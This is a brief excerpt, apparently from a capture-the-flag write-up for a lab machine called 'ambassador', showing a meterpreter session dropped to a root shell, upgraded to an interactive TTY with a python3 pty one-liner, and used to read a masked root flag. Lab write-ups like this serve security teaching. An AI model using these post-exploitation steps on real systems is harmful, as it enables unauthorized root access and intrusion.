```shell

meterpreter > shell
Process 3005 created.
Channel 1 created.
whoami
root
which python
which python3
/usr/bin/python3
python3 -c "import pty;pty.spawn('/bin/bash')"
root@ambassador:/# cd /root
cd /root
root@ambassador:~# ls
ls
cleanup.sh  root.txt  snap
root@ambassador:~# cat root.txt
cat root.txt
*******************************e
root@ambassador:~# 
```

---
